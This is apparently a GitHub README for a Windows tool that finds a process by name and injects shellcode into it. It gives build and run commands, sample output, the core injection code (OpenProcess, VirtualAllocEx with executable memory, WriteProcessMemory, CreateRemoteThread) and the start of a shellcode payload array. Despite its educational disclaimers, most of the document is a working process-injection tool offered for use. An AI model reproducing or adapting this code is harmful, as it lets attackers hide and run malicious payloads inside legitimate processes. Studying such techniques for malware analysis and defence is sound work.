 
# Process Scanner & Shellcode Injector

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&width=435&lines=Process+Injection+Demonstration;Windows+Remote+Process+Scanner+&+Shellcode+Injector;" alt="Typing SVG" /></a>

A robust Windows tool designed for scanning specific processes by name and injecting shellcode into them. This tool is geared towards educational purposes and malware analysis, showcasing how process injection operates within Windows environments.

**Note**: This tool is solely intended for use in controlled environments like malware research, pentesting, or debugging. Unauthorized or malicious use is strictly prohibited.

---

## Features

- Scans through all active processes in the system.
- Locates a target process using a user-defined process name.
- Injects shellcode into the target process if identified.
- Includes feedback and logging during the injection process.

---

## Prerequisites

- **Operating System**: Windows (with admin privileges)
- **Compiler**: MinGW or Visual Studio (MSVC)
- **Windows SDK**: Necessary for process enumeration and memory manipulation APIs.
- **Knowledge**: Familiarity with shellcode and process injection concepts.

---

## How It Works

The program leverages the `CreateToolhelp32Snapshot` API to create a snapshot of running processes and iterates over them, comparing each process name to the user-provided target. If a match is found, the target process is opened, memory is allocated, the shellcode is injected, and a new thread is created to execute the injected shellcode.

### Injection Workflow:

1. **Process Scanning**: Scans all running processes and identifies the target based on user-provided input.
2. **Process Opening**: Opens the identified target process using `PROCESS_ALL_ACCESS` privileges.
3. **Memory Allocation**: Allocates executable memory space in the target process.
4. **Shellcode Injection**: Injects the shellcode into the allocated memory.
5. **Remote Thread Execution**: Creates a remote thread in the target process to execute the shellcode.

---

## Usage

### Clone the repository:
```bash
git clone https://github.com/your-username/process-scanner-shellcode-injector.git
cd process-scanner-shellcode-injector
```

### Compile the Program:

#### Using MinGW (`gcc`):
```bash
gcc -o scanner_injector.exe scanner_injector.c -lkernel32 -luser32
```

#### Using Visual Studio:
- Open the provided solution in Visual Studio.
- Build the solution (Ctrl + Shift + B).

---

### Run the Program:
```bash
scanner_injector.exe <ProcessName>
```

#### Example:
```bash
scanner_injector.exe notepad.exe
```

### Example Output:
```bash
Found the process: notepad.exe with PID: 1234
Allocated 512 bytes with PAGE_EXECUTE_READWRITE permissions inside PID 1234
Injected 512 bytes of shellcode into process memory
Created a remote thread with ID 5678 in the target process
```

---

## Shellcode Example

You can modify the example shellcode (`R0m4InShell[]`) based on your test requirements. Ensure the shellcode is appropriate for controlled testing environments.

```c
unsigned char R0m4InShell[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    // ... additional bytes truncated
};
```

---

## Code Breakdown

Here is a brief overview of the main parts of the process scanning and injection logic:

```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
Proc.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hSnapshot, &Proc)) {
    do {
        if (wcscmp(Proc.szExeFile, target) == 0) {
            PID = Proc.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &Proc));
}

hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(R0m4InShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, rBuffer, R0m4InShell, sizeof(R0m4InShell), NULL);
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, &TID);
```

---

## Disclaimer

This tool is designed for educational purposes only. Unauthorized use of this tool for malicious purposes can lead to legal consequences. The developer is not responsible for any damage caused by misuse. Always ensure you have explicit permission to test and inject into a target process, especially in live environments.

---
